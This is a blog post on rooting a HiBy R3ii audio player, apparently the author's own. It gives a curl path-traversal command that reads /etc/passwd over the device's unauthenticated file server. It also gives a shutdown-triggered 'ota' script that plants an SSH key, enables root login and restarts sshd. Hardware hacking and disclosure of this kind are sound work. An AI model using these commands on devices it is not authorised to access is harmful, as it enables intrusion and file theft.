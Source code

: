 +++
title = "Rooting the HiBy R3ii"
date = 2024-06-15
path = "2024/06/hiby-r3ii-root"

[extra]
og_image = "/2024/06/hiby-main.jpg"
og_description = "The HiBy R3ii is a \"Digital Audio Player\" (DAP), basically the modern equivalent of MP3 players from the 00's. Naturally, I wanted to find out how hackable the device is."
+++

The HiBy R3ii is a "Digital Audio Player" (DAP), basically the modern equivalent of MP3 players from the 00's. Naturally, I wanted to find out how hackable the device is.

![](/2024/06/hiby-main.jpg)

<!-- more -->

We bought this device last week, and as all nerds know, you gotta see how it works from the inside. I've done this kind of thing before with both a GoPro and a 4G Modem [when I built my IRL backpack](/2022/08/irl-backpack/), so I kinda know where to start.

The very first thing I did was look through the settings of the device itself to see how I can interface with it. There's a nice little webserver you can enable that you can use to upload music and other files to the device, as well as download them.

This is accessed by going to "Wireless" -> "Import Music via Wi-Fi".

![](/2024/06/hiby-http.jpg)

However, they don't do any validation on the paths provided to the API, so we can pull any file from the device we want:

```bash
$ curl http://192.168.1.96:4399/download\?path=/etc/passwd
root:x:0:0:root:/root:/bin/sh
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:100:sync:/bin:/bin/sync
mail:x:8:8:mail:/var/spool/mail:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
operator:x:37:37:Operator:/var:/bin/sh
haldaemon:x:68:68:hald:/:/bin/sh
dbus:x:81:81:dbus:/var/run/dbus:/bin/sh
ftp:x:83:83:ftp:/home/ftp:/bin/sh
nobody:x:99:99:nobody:/home:/bin/sh
sshd:x:103:99:Operator:/var:/bin/sh
dyn:x:1000:1000:dyn:/home/dyn:/bin/sh
default:x:1000:1000:Default non-root user:/home/default:/bin/sh
```

Sometimes we may need to pass `--ignore-content-length` to curl in order to download some files, as the webserver incorrectly reports `Content-Length` to be 0 while still providing the data.

We can also get (almost) any directory file list: (some directories refuse to be listed, I am not sure why)

```bash
$ curl http://192.168.1.96:4399/list\?path=/var/log/ | jq
[
  {
    "path": "/var/log/cgic.log",
    "name": "cgic.log",
    "ctime": "1531674272",
    "size": 1712
  },
  {
    "path": "/var/log/thttpd_state",
    "name": "thttpd_state",
    "ctime": "1531674078",
    "size": 0
  },
  {
    "path": "/var/log/udp_state",
    "name": "udp_state",
    "ctime": "1531674078",
    "size": 0
  },
  ...
]
```

We can also upload files, but it looks like this is limited to the SD card.

The webserver is a great starting point and lets us do a lot of things already - it even runs as root! But I wanted to see if I could get an actual root shell to run commands.

I ended up downloading the firmware image from [HiBy's official website](https://store.hiby.com/apps/help-center#hc-r3-ii-firmware-v12-update), which - for whatever reason - is [a Google Drive link](https://drive.google.com/file/d/19SkqeVMVhfPNwhT758ZTrDscv-5-l-Ve/view?usp=sharing). (Later I found that the updater on the device itself **does** fetch the firmware from a non-Google URL, but it's still unclear to me why they are using Google Drive links.)

Inside of the firmware zip we have a number of interesting files, but all we really need is `r3ii.upt`, which is an ISO image that the device uses to install firmware updates. One of the files inside of the ISO is `SYSTEM.UBI`, which is an [UBIFS](https://en.wikipedia.org/wiki/UBIFS) filesystem image containing all the files pushed to the flash.

It would be pretty straight forward to build your own ISO update image and push that to the device, but I didn't feel like doing the work, so instead I looked through the executables on the device.

Extracting the UBIFS image is easy, and can be done through the [ubi_reader](https://github.com/onekey-sec/ubi_reader) tools:

```bash
ubireader_extract_files system.ubifs
```

The main executable binary is a MIPS32 binary located at `/usr/bin/hiby_player`. I put this into Ghidra and started looking for points of interest.

The system uses some internal root paths to point to specific parts of the system:

* `x:\`, `y:\`, `z:\` => `/usr/resource/`: application resources such as UI
* `a:\` => `/mnt/sd_1/`: second SD card - a second SD card slot doesn't exist on this model, but there are other models that do support it
* `b:\` => `/mnt/sd_2/`: third SD card
* `c:\` => `/mnt/udisk_0/`: first mounted external drive (through USB)
* `d:\` => `/mnt/samba/`: network drive
* `e:\` => `/mnt/udisk_1/`: second mounted external drive
* `f:\` => `/mnt/udisk_2/`: third mounted external drive
* `v:\` => `/`: system root

Searching for all paths in the firmware reveals a number of interesting SD card paths:

* `/mnt/sd_0/r3ii.upt`, `a:\update.upt`, and `a:\r3ii.upt`: paths used for updating - you could probably use these to flash a custom firmware to the device, but I have not tried this.
* `/mnt/sd_0/ota`: something labeled as a `test_program`.

The `ota` script is particularly interesting; it's a program on the (first) SD card that gets executed when you shut down the device. We can test this by writing a script with the filename `ota` to the root of the SD card:

```bash
#!/bin/sh
printf "Hello, world!" > /mnt/sd_0/test.txt
```

This file can either be placed on the SD card directly, or uploaded via the webserver:

```bash
curl -F "files[]=@ota" http://192.168.1.96:4399/upload
```

We hold the power button on the device to shut it down, and.. it doesn't actually shut down, the countdown just restarts! This is an interesting but good sign - putting our script here has changed how shutdown behaves.

![](/2024/06/hiby-shutdown.jpg)

If we don't hold it to fully shutdown (happens after restarting the countdown ~2 times) and check the contents of the SD card (which can be done through the webserver as well), we can see that a new file has been created: `test.txt` containing the text `Hello, world!`. Awesome! So we can run arbitrary commands. But under which user is this running? This is easy to test:

```bash
#!/bin/sh
id > /mnt/sd_0/my_id.txt
```

Running this reveals that we are in fact running as root (uid 0, gid 0). So we can run arbitrary commands as root on the device now whenever we want by pressing the shutdown button. But we can do a bit more than this now.

While I was exploring the filesystem of the device, I found that there is an SSH daemon present, which the HiBy team were using themselves during development, as can be seen by the presence of a public key in `/root/authorized_keys`, attributed to `dyn@hb`:

```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC6NB8XeL+Ay9ySEXg5TNChKS0F0PxH2eXeVcQguEc/yh/SeV+2HLr3spjGlFRm8rfRhgT03GwTbdKrSyumQd/mJ4+gFm7uvaJ9byg7mnIDu0Srxd1UN2TxqQGf0wTI4S78MX96r8LTr5duVKSIVRX/ZHff8nsvH4m9NVowONy4h42jjc60o989Y8YjFY6aiPbrcBA9OSvYsQg+oAnyjnmfu/aEwYdlBpXqAe3RG1JhtM3Zv80V93yF89aiN7D1iN2OlzmbS1PMph/6W7lIIVMvKPqzBgxLeDqZScKkFV31WAUxn0M28KtVn2uqUyBROEjygqrO2v1SOt/vIEv2eWl7 dyn@hb
```

Can we figure out how to start the SSH server with our own public key so we can access it easier? After some trial and error, I came up with the following `ota` script:

```bash
#!/bin/sh

printf "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILk/MLteTsbtxuLmMnF+lbvCBISEyyg4FWjJJgyWvdz2 nimble@nimblepad\n" > /root/.ssh/authorized_keys

chmod 0750 /root
chmod 0700 /root/.ssh
chmod 0600 /root/.ssh/authorized_keys
chown root:root /root
chown root:root /root/.ssh
chown root:root /root/.ssh/authorized_keys

printf "AuthorizedKeysFile .ssh/authorized_keys
UsePrivilegeSeparation no
PasswordAuthentication no
PermitEmptyPasswords no
PermitRootLogin yes
Subsystem       sftp    /usr/libexec/sftp-server\n" > /etc/ssh/sshd_config

mkdir /var/empty
chown root:wheel /var/empty
chmod 555 /var/empty

killall -9 sshd
/bin/sshd -E /var/log/sshd.log &
```

This does a number of things:
* Modifies `authorized_keys` to add my ed25519 public key. Note that RSA keys also work, but they may require passing `-o 'PubkeyAcceptedKeyTypes +ssh-rsa'` to `ssh` when connecting.
* Sets appropriate permissions for the `/root` folder and the relevant SSH paths, as these are not already set correctly.
* Creates `/var/empty` and gives it the proper permissions, as the SSH server requires this.
* Writes a custom `sshd_config` that permits root login.
* Finally, kills any existing instance of `sshd` before starting its own `sshd` with logging enabled - if something goes wrong, we can pull the logs using the webserver.

After pushing the script and holding the shutdown button until the timer restarts, we should now have a working SSH server that we can connect to! I can now simply run `ssh root@192.168.1.96` and be presented with a root shell on the device.

To conclude, you can probably automate this by writing a custom firmware and flashing that to the device. However, I particularly like this method where all it takes to get a root shell is 1 file on the SD card and holding the power button for a few seconds, all without flashing the entire device.

